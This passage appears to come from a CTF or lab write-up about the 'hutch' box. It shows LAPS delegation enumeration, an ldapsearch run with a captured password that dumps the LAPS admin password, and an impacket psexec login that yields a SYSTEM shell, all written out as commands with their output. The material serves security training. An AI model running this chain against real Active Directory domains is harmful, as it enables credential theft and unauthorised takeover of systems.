Without resorting to Bloodhound, I could have discovered this using [LAPSToolKit](https://github.com/leoloobeek/LAPSToolkit). Once imported into a Powershell session, run these commands:

```cmd
PS C:\temp> Find-LAPSDelegatedGroups
Find-LAPSDelegatedGroups

OrgUnit                                  Delegated Groups
-------                                  ----------------
OU=Domain Controllers,DC=hutch,DC=offsec HUTCH\Domain Admins
OU=Domain Controllers,DC=hutch,DC=offsec HUTCH\fmcsorley

PS C:\temp> Find-AdmPwdExtendedRights
Find-AdmPwdExtendedRights

ComputerName         Identity            Reason
------------         --------            ------
hutchdc.hutch.offsec HUTCH\Domain Admins Delegated
hutchdc.hutch.offsec HUTCH\fmcsorley     Delegated
```

However, I'm not yet fmcsorley, I'm the defaultapppool machine account.
I did several things to try an run commands as fmcsorley to no avail.
Since I had luck with LDAP, I will try to dump whatever I can with `ldapsearch`:

```bash
$ ldapsearch -x -H ldap://192.168.196.122 -D 'hutch\fmcsorley' -w CrabSharkJellyfish192 -b 'DC=hutch,DC=offsec' > ldap.out
```

In this massive dump, I find this:

```bash
ms-Mcs-AdmPwd: R/M07+&f&5SF80
ms-Mcs-AdmPwdExpirationTime: 133257865649174350
```

It's actually possible to search for this specific attribute if you know precisely what to look for:

```bash
$ ldapsearch -x -H ldap://192.168.164.122 -D 'hutch\fmcsorley' -w CrabSharkJellyfish192 -b 'DC=hutch,DC=offsec' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```

With the temporary admin password, you can just psexec as System now:

```bash
$ /opt/impacket/examples/psexec.py hutch.offsec/administrator:'R/M07+&f&5SF80'@192.168.196.122
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 192.168.196.122.....
[*] Found writable share ADMIN$
[*] Uploading file nKFytfBx.exe
[*] Opening SVCManager on 192.168.196.122.....
[*] Creating service gJOd on 192.168.196.122.....
[*] Starting service gJOd.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

